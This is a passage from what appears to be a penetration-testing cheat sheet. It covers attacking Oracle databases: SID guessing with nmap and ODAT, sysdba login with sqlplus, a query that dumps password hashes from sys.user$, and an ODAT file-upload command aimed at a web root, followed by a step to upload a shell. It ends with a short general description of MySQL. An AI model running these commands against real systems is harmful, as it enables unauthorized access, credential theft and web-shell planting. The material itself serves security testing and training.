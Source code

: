 ### Interaction

If the client does not specify a SID, the default value defined in the `tnsnames.ora` file is used.

- Guess the `SID`

  - `nmap` brute forcing script

  - Oracle Database Attacking Tool (`ODAT`)

    ```bash
    ./odat.py all -s [IP]
    ```

- Log in

  ```bash
  sqlplus [USER]/[PASSWD]@[IP]/[SID]
  ```

- Log in as the System Database Admin (`sysdba`)

  ```bash
  sqlplus [USER]/[PASSWD]@[IP]/[SID] as sysdba
  ```

- Commands

  -   [SQLplus commands](https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985) 
  - `select table_name from all_tables;`  list all available tables in the current database
  - `select * from user_role_privs;` show the privileges of the current user
  - `select name, password from sys.user$;` retrieve the password hashes

- Test if a File Upload is possible (e.g on Win)

  ```bash
  $ echo "Oracle File Upload Test" > testing.txt
  $ ./odat.py utlfile -s [IP] -d [SID] -U [USER] -P [PASSWD] --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
  $ curl -X GET http://[IP]/testing.txt	# Check if it worked
  ```

- Upload a shell (if a web server is run) to the root directory

  - Linux `/var/www/html`
  - Windows `C:\inetpub\wwwroot`

## 3306 - MySQL

### Generalities

**Type:** Database

- Purpose:

  - Open-source SQL relational database management system developed and supported by Oracle.
  - The MySQL clients can retrieve and edit the data
  - Ideally suited for applications such as *dynamic websites*
  - A MySQL database translates the commands internally into executable code and performs the requested actions.
